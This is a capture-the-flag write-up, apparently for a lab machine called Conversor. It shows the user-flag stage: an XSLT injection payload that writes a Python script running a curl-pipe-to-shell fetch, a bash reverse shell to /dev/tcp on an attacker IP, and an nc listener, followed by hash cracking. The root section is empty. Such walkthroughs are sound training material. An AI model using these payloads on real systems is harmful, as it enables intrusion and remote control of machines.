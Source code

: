 ```yaml
---

# COnversor (Easy): 10.10.11.92

![Icon](Images/coversoricon.png)

---
```


## Quick Overview

a new linux machine, with easy difficulty, that put in front of us :

1. **XSLT Exploitation** → Database Access → **USER.TXT**
2. **Needrestart 3.7 Privilege Escalation** → [CVE-2024-48990 Auto Exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit) → *Thanks to @Serner77* → **ROOT.TXT**

---

## USER.TXT

### NMAP Enumeration

as with every machine we start with the nmap scan, that show as a classic 22/80 ports.

![Icon](Images/nmapscan.png)

we go to conversor web page, as first sight we see XML converation via XSLT, with a small round with the discover the source code in the About page.

in the Source code we got some valuabla informations, the most imprtants are :

1. XSLT is exploitable
2. you can run python scripts in the scripts directory, you can find this info in install.md
3. the users database is in instance directory

### First Step

so first of all we will start with a reverse shell, by writing a python script with the help of xslt file, that will use curl to connect to our machine, that have aleardy a python http server prepared, to copy a reverse shell script, and lunche it to get our initial login.

so upload this XSLT File:

```XSLT
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exploit="http://exslt.org/common"
    extension-element-prefixes="exploit"
    version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.203:8000/shell.sh|sh")
</exploit:document>
</xsl:template>
</xsl:stylesheet>
```

and we prepare a python http server by using the command `python3 -m http.server`, where the reverse shell script exist:

```sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.203/9999 0>&1'
```

and last thing, nc listener `nc -nlvp 9999`.

and by that we get our initial access, as you can see:

![Icon](Images/xsltrevshell.png)

### DB Exploit

For the next step, we will copie the DB to our local machine so we can exploit it peacefully, so i launched a python http server in the victim machine to copy the DB:

![Icon](Images/dbdownload.png)

i open the DB with sqlite browser, and found the user fismathack with it hashed password

![Icon](Images/sqlitebrowser.png)

### Final Touch

By cracking the hash via [CrackStation](https://crackstation.net), we can login with fismathack and via SSH and capture the USER.TXT flag.

![Icon](Images/usertxt.png)

---

## ROOT.TXT











